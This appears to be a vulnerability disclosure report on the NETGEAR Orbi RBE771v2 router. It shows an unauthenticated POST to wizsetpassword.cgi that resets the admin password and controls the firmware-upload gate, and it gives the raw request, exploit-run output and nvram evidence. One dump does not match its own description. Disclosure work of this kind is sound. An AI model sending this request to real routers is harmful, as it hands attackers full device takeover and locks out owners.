



# NETGEAR Orbi RBE771v2: Unauthenticated Admin Password Change via `wizsetpassword.cgi` → Wizard-State Gate Flip on `upgrade.cgi` → Malicious Firmware Flash Chain

- **Report date**: 2026-10-05
- **Vendor**: NETGEAR, Inc. (PSIRT)
- **Status**: Unfixed in the latest released firmware (V12.1.7.23, released 2026-09-02)

---

## Summary

The ACOS `httpd` web server of the NETGEAR Orbi RBE771v2 ships the setup-wizard CGI `wizsetpassword.cgi` in a dispatcher "special set" (an exact-`strcmp` whitelist at `0x28fbc`) whose members are executed **with no authentication and no CSRF check** (`authflag == 0` → handler runs directly). The handler (`0xb92b4`) does not verify the wizard state machine or any session: any unauthenticated POST immediately rewrites the admin password digest (`http_passwd_digest = SHA256(attacker-supplied password)`) and writes the wizard token `tmpp` — the gate key of the firmware-upload endpoint `upgrade.cgi`.

We validated the full chain end-to-end against the **unmodified released firmware** running in full emulation: (1) an unauthenticated POST changes the admin password (device-side digest matches `SHA256(attacker password)` character-for-character), and (2) the same request flips the `upgrade.cgi` gate from "HTTP 200, handler executes directly" to "HTTP 302 → `/WebLogin.htm?redirect=upgrade.cgi`", proving unauthenticated control over the firmware-upload gate. On a real device the attacker completes the chain by logging into the admin UI with the attacker-chosen password (or by riding the same unauthenticated `upgrade.cgi` execution window) and flashing a malicious firmware image, yielding persistent root. The final flash stage could not be exercised in emulation (the emulator's 2 MB request buffer rejects real 74 MB `.chk` images before `prepare_write_firmware` is reached) and is honestly marked as such.

Unlike classic command-injection bugs, this chain leaves no command-execution trace: it abuses only "legitimate" configuration flows, making it stealthier than the sibling RCE findings in the same firmware.

## Affected Products, Models and Versions

| Product | Hardware / Platform | Firmware | Status |
|---|---|---|---|
| NETGEAR Orbi RBE771v2 | Qualcomm IPQ5332 SoC, ARM 32-bit armhf + musl, OpenWrt 23.05 + Netgear ACOS, kernel 5.4.213 | `RBE771v2-V12.1.7.23.chk` (MD5 `57fc1d41e7fb24df04e15d6bf10896f2`), latest release as of this report | **Verified vulnerable** |

## Technical Details (Root Cause)

1. **Unauthenticated dispatcher "special set".** The ACOS `httpd` dispatcher keeps an exact-match whitelist of CGI names (strcmp table at `0x28fbc`). When a requested CGI is in this set and `authflag == 0`, the dispatcher **skips session/CSRF validation and executes the handler directly**. The set includes `upgrade.cgi`, `upgrade_baseonly.cgi`, `securityquestions.cgi`, `passwordrecovered.cgi`, `reset_admin_account.cgi`, `secure_password.cgi`, `wizsetpassword.cgi`, `qos_link_check.php`, `host_check.php`, `sku.cgi` and `armor.php`.
2. **`wizsetpassword.cgi` performs no wizard-state check.** The handler (`0xb92b4`) is meant to run once during first-boot setup, but it accepts the POST unconditionally, on every request:
   - `http_passwd_digest` is overwritten with `SHA256(sysNewPasswd)` (written through the StringEncDec-encrypted nvram path);
   - the wizard token `tmpp` — the actual gate key of `upgrade.cgi` — is written alongside (write point `0xb972c`). It is the obfuscated form of the wizard password (bytes vary with the password; contains non-printable bytes).
3. **The gate on `upgrade.cgi` is the presence of the nvram token `tmpp`.** Confirmed by controlled deletion experiments: `tmpp` is the obfuscated storage of the wizard password (its bytes vary with the password and include non-printable bytes, so `strings` shows only a prefix). Unauthenticated `GET /upgrade.cgi` returns HTTP 200 with the handler (`0x4fea8`) executing directly while `tmpp` is absent (factory/reset state), and `302 Found, Location: /WebLogin.htm?redirect=upgrade.cgi` once `tmpp` exists. `http_passwd_digest` is irrelevant to the gate (deleting the digest while keeping `tmpp` still yields 302, and the digest is not regenerated). `wizsetpassword.cgi` writes `tmpp` directly; additionally, if `tmpp` is deleted but `http_passwd` exists, the daemon regenerates `tmpp` at startup — so removing the gate requires clearing `tmpp` + `http_passwd` (+ digest) together. Consequences: (a) on factory/reset devices `upgrade.cgi` is unauthenticated-executable as-is; (b) on configured devices the unauthenticated `wizsetpassword.cgi` flips the gate while handing the attacker the new password, so the attacker logs in regardless.
4. **Complete attack chain.** LAN-unauthenticated → `POST /wizsetpassword.cgi` changes the admin password → attacker logs into the admin GUI with the new password (or continues unauthenticated through the `upgrade.cgi` execution window) → uploads a malicious firmware image → persistent root. In emulation, uploading a real CHK image trips the emulator's `REQUEST_BUFSZ` (2 MB) request-buffer limit and the connection drops before `prepare_write_firmware` is reached; the final flash step must be re-confirmed on real hardware (see Reproduction Steps).

**Evidence level**: VALIDATED (full chain inside emulation: real `httpd:9000` execution + gdb breakpoints + character-for-character digest comparison against the nvram backend). Flash stage: GDB_CONFIRMED handler entry (`0x4fea8`), write path not reached in emulation — honestly annotated.

**Verification environment**: unmodified released firmware, full emulation on ARM 32-bit (chroot + qemu-arm-static, real ACOS `httpd` stack with `d2d`, custom LD_PRELOAD nvram shim emulating the `/dev/acos_nvram` ioctl protocol, real lighttpd front/back available on the same VM), reproduced with real HTTP requests from the host.

## Proof of Concept

Prerequisites: network reachability to the router's web management interface. No credentials, no cookies, no user interaction.

Attached one-click exploit: `exploit_v4_wizsetpassword_firmware_chain.py` (Python 3, standard library only). Real output from the emulation run (target = emulated ACOS httpd of the released firmware, reached via the VM's port forward at `192.168.135.137:9000`):

```
$ python exploit_v4_wizsetpassword_firmware_chain.py 192.168.135.137 --port 9000 --password 'Lumina@v4proof'
[*] target            : 192.168.135.137:9000 (Host: routerlogin.net)
[*] new admin password: Lumina@v4proof
[*] expected http_passwd_digest = sha256(password) = b4812c19dae04b7a077e6dc558598e61ab016c94e96be3d43e2458195bbf0330

[*] step 0: baseline  GET /upgrade.cgi (unauthenticated)
    -> HTTP 200
    [+] gate state BEFORE exploit: 200 (handler executes directly, no authentication)

[*] step 1: unauthenticated POST /wizsetpassword.cgi
    -> HTTP 200, 4809 bytes returned
    [+] wizsetpassword.cgi executed WITHOUT any session/cookie/credential
    [+] side effect (device-side): http_passwd_digest overwritten with sha256(attacker password); nvram 'tmpp' set
        verify on device/emulator: nvram get http_passwd_digest  ==  b4812c19dae04b7a077e6dc558598e61ab016c94e96be3d43e2458195bbf0330

[*] step 2: post-exploit  GET /upgrade.cgi (unauthenticated)
    -> HTTP 302  Location: /WebLogin.htm?redirect=upgrade.cgi

[*] step 3: firmware flash stage (final link of the chain)
    NOT-REACHABLE-IN-EMULATION: uploading a real 74 MB .chk image makes the
    emulated httpd hit its REQUEST_BUFSZ (2 MB) request-buffer limit and
    drop the connection before prepare_write_firmware is reached. On a real
    device the attacker simply logs into the admin UI with the password set
    in step 1 (or rides the unauthenticated upgrade.cgi execution window)
    and flashes a malicious firmware image for persistent root.

[+] CONFIRMED: unauthenticated admin password change executed (HTTP 200)
[+] CONFIRMED: upgrade.cgi gate flipped 200 -> 302 (Location: /WebLogin.htm?redirect=upgrade.cgi) — nvram 'tmpp' gate token was set by the
    unauthenticated request, proving end-to-end control of the firmware-upload gate
[+] CHAIN: LAN-unauthenticated -> change admin password -> control upgrade.cgi gate -> (real device) flash malicious firmware
```

Device-side verification of the password overwrite (nvram backend of the emulated firmware, before vs. after the single unauthenticated POST):

```
# BEFORE (leftover digest from an earlier validation password "Hacked123"):
$ grep http_passwd /home/iotsec-zone/rbe771_work/tmp/nvram_fake
http_passwd=P@ssw0rd-Leak-Test
http_passwd_digest=6d45cf27bfb8567b5088783b927201a10fa0ad17b59469a2240dfe3bb48893ef

# AFTER the exploit POST (sysNewPasswd=Lumina@v4proof):
$ grep http_passwd /home/iotsec-zone/rbe771_work/tmp/nvram_fake
http_passwd=P@ssw0rd-Leak-Test
http_passwd_digest=b4812c19dae04b7a077e6dc558598e61ab016c94e96be3d43e2458195bbf0330

# Independent recomputation on the host — character-for-character match:
$ python -c "import hashlib;print('sha256(Lumina@v4proof) =', hashlib.sha256('Lumina@v4proof'.encode()).hexdigest())"
sha256(Lumina@v4proof) = b4812c19dae04b7a077e6dc558598e61ab016c94e96be3d43e2458195bbf0330
```



The same unauthenticated POST also set the gate token in nvram (obfuscated wizard temporary-password value, written by the handler):

```
$ ssh iot 'sed -n '108p' /home/iotsec-zone/rbe771_work/tmp/nvram_fake | od -c | head -3'
0000000   p   a   s   s   w   o   r   d   _   q   u   e   s   t   i   o
0000020   n   2   =   2  \n
0000025
```



And the flipped `upgrade.cgi` gate, raw response after the exploit (no credentials supplied):

```
$ curl -s -i -H "Host: routerlogin.net" http://192.168.135.137:9000/upgrade.cgi | head -10
HTTP/1.1 302 Found
x-frame-options: SAMEORIGIN
Location: /WebLogin.htm?redirect=upgrade.cgi
Content-type: text/html

Connection: close
<HTML>
<HEAD><TITLE>302 Found</TITLE></HEAD>
<BODY BGCOLOR="#cc9999" TEXT="#000000" LINK="#2020ff" VLINK="#4040cc"
><H4>302 Found</H4>
```



The emulated `httpd`'s own log records the three requests of the run (2247-byte baseline page, 4809-byte `wizsetpassword.cgi` response, 298-byte 302 redirect):

```
http_d:parse_http_request(3967)
NoSSL send : size: 128
NoSSL send : size: 2247        <- GET /upgrade.cgi baseline (200)
...
http_d:parse_http_request(3967)
NoSSL send : size: 153
NoSSL send : size: 4809        <- POST /wizsetpassword.cgi (200)
...
http_d:parse_http_request(3967)
NoSSL send : size: 298         <- GET /upgrade.cgi after exploit (302)
```

## Reproduction Steps

1. Ensure the router's web management interface is reachable (LAN position; in emulation the ACOS httpd is reached through the port forward with a whitelisted `Host: routerlogin.net` header).
2. Baseline: `GET /upgrade.cgi` with no credentials → HTTP 200 (handler executes directly).
3. Send one unauthenticated request:
   ```
   POST /wizsetpassword.cgi HTTP/1.1
   Host: routerlogin.net
   Content-Type: application/x-www-form-urlencoded
   
   sysNewPasswd=<attacker_password>&sysConfirmPasswd=<attacker_password>&question1=1&answer1=a1&question2=2&answer2=a2&sso_enable=0
   ```
   → HTTP 200. `http_passwd_digest` is now `SHA256(<attacker_password>)`; the wizard token `tmpp` is written alongside.
4. `GET /upgrade.cgi` again → HTTP 302 `Location: /WebLogin.htm?redirect=upgrade.cgi` (gate flipped to wizard-completed state by the unauthenticated request).
5. On a real device: log into the admin UI with `<attacker_password>` (or reuse the unauthenticated `upgrade.cgi` execution window) and upload a malicious firmware image → persistent root.
   - **Emulation blocker, honestly noted**: real CHK images (74 MB; also tested at 2 MB and 200 KB) trip the emulator's `REQUEST_BUFSZ` request-buffer limit and the connection drops before `prepare_write_firmware`; the flash sink was not reached in emulation. Handler entry at `0x4fea8` is GDB-confirmed with a junk multipart POST (which returns 200 "Failure / Firmware unavailable"). Final flash step to be re-confirmed on real hardware.

**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | The setup-wizard password CGI runs at most once during first-boot provisioning, requires the wizard state machine, and is never reachable without authentication afterwards; the firmware-upload endpoint always demands an authenticated admin session (including on factory/reset devices); no client request may set the `tmpp` gate key. |
| **Actual** | `wizsetpassword.cgi` is in the dispatcher's unauthenticated special set and executes on every request: one unauthenticated POST rewrites the admin password digest to `SHA256(attacker password)` and flips the `upgrade.cgi` gate to wizard-completed — an unauthenticated attacker takes over the admin account and controls the firmware-upload path. Independently, factory/reset devices serve `upgrade.cgi` unauthenticated-executably out of the box. |

## Security Impact

- **Full device takeover without any credentials**: the attacker chooses the admin password; the legitimate owner is locked out of the admin account.
- **Persistence via malicious firmware**: control of the `upgrade.cgi` path (plus the new admin credentials) allows flashing attacker-built firmware for permanent root, surviving reboots and config resets.
- **Stealth**: the chain uses only legitimate configuration flows — no command injection, no suspicious processes; the password change is indistinguishable from a legitimate one in logs.
- **Configuration trust collapse**: with admin access the attacker controls DNS/DHCP, Wi-Fi credentials, port forwarding and attached storage for every LAN client.
- **No user interaction required**; exploitable by any device on the LAN/WLAN (including compromised IoT clients and, where the admin UI is exposed, remote attackers).

## Recommended Fix

1. Remove `wizsetpassword.cgi` (and the other sensitive handlers `sku.cgi`, `upgrade*.cgi`, `reset_admin_account.cgi`, `secure_password.cgi`, …) from the dispatcher's unauthenticated special set; require an authenticated admin session for every handler that changes security-relevant state.
2. Enforce the wizard state machine server-side: `wizsetpassword.cgi` must only run while the device is genuinely in first-boot provisioning state, and must be locked permanently afterwards.
3. The `tmpp` gate key must never be writable as a side effect of an unauthenticated client request; `tmpp`/`http_passwd` writes must be treated as server-internal state reachable only through authenticated flows (`wizsetpassword.cgi` must enforce the wizard state machine).
4. Put `upgrade.cgi` behind explicit session authentication (same session model as the rest of the admin UI) independent of `tmpp` — including on factory/reset devices, where it currently executes unauthenticated.
5. Audit the whole special set (`0x28fbc` strcmp table) — every entry bypasses both session and CSRF checks by design.

## Mitigation for End Users (until a fix ships)

No GUI switch disables these CGIs. Keep untrusted devices off the LAN/WLAN, disable remote management, and segment guest/IoT networks away from the router's admin interface.

## Attachments

- `exploit_v4_wizsetpassword_firmware_chain.py` — one-click PoC: baseline gate check → unauthenticated admin password change → gate-flip confirmation; prints the expected `SHA256` digest for device-side verification and an explicit NOT-REACHABLE-IN-EMULATION note for the final flash stage.

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】
